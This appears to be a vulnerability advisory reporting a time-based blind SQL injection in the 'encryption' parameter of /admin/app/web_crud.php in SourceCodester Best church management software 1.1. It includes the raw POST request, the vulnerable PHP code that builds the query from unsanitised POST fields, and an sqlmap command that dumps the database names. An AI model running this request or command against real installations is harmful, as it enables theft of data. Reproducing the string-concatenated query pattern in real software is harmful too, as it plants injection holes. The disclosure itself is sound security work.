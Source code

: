 # Code Source
https://www.sourcecodester.com/php/17856/best-church-management-software-free-download-full-version.html
# Description
A vulnerability has been found in SourceCodester Best church management software 1.1 and classified as critical. SourceCodester Best church management software 1.1 has a SQL Injection vulnerability in `/admin/app/web_crud.php`. Affected is file `/admin/app/web_crud.php`,The manipulation of the argument encryption leads to SQL inject. Remote attackers can leverage time-based blind SQL injection to extract data from the database.

# Request
```
POST /admin/app/web_crud.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br, zstd
Content-Type: application/x-www-form-urlencoded
Content-Length: 13
Origin: http://127.0.0.1
Connection: keep-alive
Referer: http://127.0.0.1/index.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Priority: u=0, i

update3=1&encryption=*
```

# Affect code(`/admin/app/web_crud.php`)
```
......
if (isset($_POST['update3'])) {

    $stmt = $conn->prepare("UPDATE `emailsetting` SET `encryption`='" . $_POST['encryption'] . "',`host`='" . $_POST['host'] . "',`port`='" . $_POST['port'] . "',`username`='" . $_POST['username'] . "',`password`='" . $_POST['password'] . "',`email`='" . $_POST['email'] . "' WHERE id='" . $_POST['id'] . "' ");

    $stmt->execute();

    $_SESSION['update'] = "update";
    header("location:../web.php");
}
......
```

# Exploit
```
python sqlmap.py -r .\1.txt --dbs
```
![图片](https://github.com/user-attachments/assets/6c7e9e42-a2ac-4058-b338-8b82fd03bc3d)

![图片](https://github.com/user-attachments/assets/0b7655ed-8240-424a-ab9b-821ed2bf25e9)

